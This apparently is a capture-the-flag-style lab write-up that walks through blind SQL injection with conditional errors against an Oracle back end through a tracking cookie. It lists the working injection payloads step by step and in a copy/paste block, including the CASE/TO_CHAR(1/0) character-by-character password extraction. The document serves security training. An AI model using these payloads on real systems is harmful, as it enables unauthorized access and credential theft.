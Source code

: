# Blind SQL injection with conditional errors

A concise write-up using **my original steps** (verbatim flow) with small, accurate notes.  
**Note:** Payloads are shown exactly as used (no URL-encoding).

---

## 🥅 Goal
**Get creds and log in as the user `administrator`** using a boolean/error signal via a vulnerable cookie.

---

## ✅ My Exact Steps (Verbatim)

1. **GOAL: Get creds, and log in as user administrator.**

2. **Finding vulnerable param, its the cookie:**  
   `TrackingId=qG1mMWp1Qv45rNvF'` → **500 status**

3. **fixing:**  
   `TrackingId=qG1mMWp1Qv45rNvF'+AND+1=1+--+` → **200**

4. **AND+1=2 still gives us 200.., WHAT THE FUCK?**

5. **trying to figure out how many columns returning:**

6. **`'+UNION+SELECT+NULL+--+` keeping adding columns getting errors..**

7. **Maybe it's the db type? trying to get from oracle:**

8. **`'+UNION+SELECT+NULL+FROM+DUAL+--+` → keep adding columns and get errors.**

9. **Maybe i can only fetch one column?**

10. **`'||' '||'` → **200 status**..**

11. **`'||(SELECT '1')||'` → still error.., maybe different DB?**

12. **`'||(SELECT '1' FROM DUAL)||'` → finally returns **200**.**

13. **`'||(SELECT 'a' FROM users)||'` → returns **500**?!**

14. **After some research i found that DUAL returns 1 row, while users might return multiple.**

15. **Lets return only 1 row:**  
    `'||(SELECT 'a' FROM users WHERE ROWNUM=1)||'` → **200**

16. **we know there's one user with each name so the following will return a single row:**  
    `'||(SELECT '' FROM users WHERE username='administrator')||'`

17. **Lets google how to make if statement in oracle (see picture 1)**

18. **Query:**  
    `'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'` → in Oracle we have **SUBSTR** and not SUBSTRING like MySQL

19. **Whenever we'll get the right character the website will return status 500.**

20. **Lets automate this via python (see automation.py file)**

21. **grab the password and Log in as the administrator user**

22. **Lab solved!**

---

## 🧠 Minimal Additions (Why / Tips)

- **Why `AND 1=2` didn’t flip the page:** With this cookie sink, the app still rendered the same template (status **200**) regardless of boolean. We needed a **visible oracle**—either content-length change or a **hard error**.  
- **Why UNION failed:** Your cookie is concatenated into a string expression, not into a `SELECT` result set the page renders. UNIONs hit **column/type mismatches** and don’t control the visible output here.  
- **Oracle concatenation / single-row subquery:**  
  - Oracle uses `||` to concatenate strings.  
  - A scalar subquery in a string context **must return exactly one row** → `DUAL` works; `users` needs `WHERE ROWNUM=1` (or more specific predicates).  
- **Error-as-boolean:** `CASE WHEN <true> THEN TO_CHAR(1/0) ELSE '' END` raises an exception only when the predicate is **true** ⇒ your HTTP status flips to **500** → perfect oracle.  
- **Character search:** Iterate `SUBSTR(password,i,1)` across an alphabet (e.g., `0-9a-z`) until you force the 500. Append the found char and increment `i`. Repeat until no more matches (or use a known fixed length).

> Tiny Oracle notes: Empty string `''` is treated as **NULL** in Oracle; for visibility, sometimes use a marker like `'-'` instead of empty, though the error technique avoids needing output.

---

## 🔧 Raw Payloads I Used (Copy/Paste)

```text
TrackingId=qG1mMWp1Qv45rNvF'
TrackingId=qG1mMWp1Qv45rNvF'+AND+1=1+--+
'+UNION+SELECT+NULL+--+
'+UNION+SELECT+NULL+FROM+DUAL+--+
'||' '||'
'||(SELECT '1')||'
'||(SELECT '1' FROM DUAL)||'
'||(SELECT 'a' FROM users)||'
'||(SELECT 'a' FROM users WHERE ROWNUM=1)||'
'||(SELECT '' FROM users WHERE username='administrator')||'
'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

---

## 🏁 Result
- Found a **cookie-based Oracle injection**, used **error-based boolean logic** via `CASE ... TO_CHAR(1/0)` with `SUBSTR`, automated the character search, recovered the **admin password**, and logged in. **Lab Solved. ✅**
